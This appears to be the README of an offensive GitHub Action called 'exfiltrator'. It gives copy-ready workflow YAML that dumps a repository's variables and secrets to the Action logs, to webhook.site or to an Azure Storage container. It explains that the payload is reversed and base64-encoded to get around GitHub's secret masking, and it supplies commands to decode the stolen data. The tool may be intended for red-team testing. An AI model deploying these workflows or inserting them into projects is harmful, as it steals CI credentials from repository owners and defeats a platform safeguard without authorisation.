 ## Background

All the contexts: https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/accessing-contextual-information-about-workflow-runs
Printing context to logs: https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/accessing-contextual-information-about-workflow-runs#about-contexts

## Usage

### Exfil to GitHub Action logs (default behaviour)

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
```

### Exfil to webhook.site

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
          sink: 'webhook.site'
          webhook-site-id: '<site_id>'
```

This allows sending the data off to [https://webhook.site](https://webhook.site).

Going there will automatically generate an ID you can use for the input variable `webhook-site-id`.

> ⚠️ Beware: if you do not use the paid version of the service, the exfiltrated data will be readable for anyone with the correct ID (UUID), and for the owner of the site.

### Exfil to Azure Storage Account container

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
          sink: 'azure-storage-account'
          az-storage-account-name: '<storage_account_name>'
          az-storage-container-name: '<container_name>'
          az-storage-sas-token: '<sas_token>'
```

This option is available, since `*.blob.core.windows.net` has to be whitelisted even for firewall protected self-hosted runners, since GitHub uses Azure Storage Accounts for writing job summaries, logs, workflow artifacts, and caches (see [documentation](https://docs.github.com/en/actions/hosting-your-own-runners/managing-self-hosted-runners/about-self-hosted-runners#communication-between-self-hosted-runners-and-github)).

If your Storage Account has the globally unique name `examplename`, it will be available at `https://examplename.blob.core.windows.net`...

You should generate an SAS token that will allow for write-only for a limited time. This will generate one that is valid for 10 minutes:

``` bash
az storage container generate-sas --account-name <storage_account_name> --name <container_name> --permissions w --expiry $(date -u -d "+10 minutes" +"%Y-%m-%dT%H:%M:%SZ")
```

### Working with the output

The Action will exfiltrate a json that is first reversed character by character (to circumvent the masking of secrets) and then base64 encoded for the transport.

Follow these steps to make this blob readable:

``` bash
# make all of it readable
echo <output> | base64 -d | rev | jq

# show only the envvars that get a special treatment, since they are not in json format to begin with
echo <output> | base64 -d | rev | jq -r '.[0].envvars' | base64 -d
```

## Next steps

Status: all steps (logs, webhook.site and Az Storage Account) work on ubuntu-latest.

1. If exfil fails to webhook or Azure, the action still succeeds, since the HTTP errors are not regarded as errors in general. Change that?
2. Fix base64 error on macOS, there is no -w option
3. Check for windows and macOS
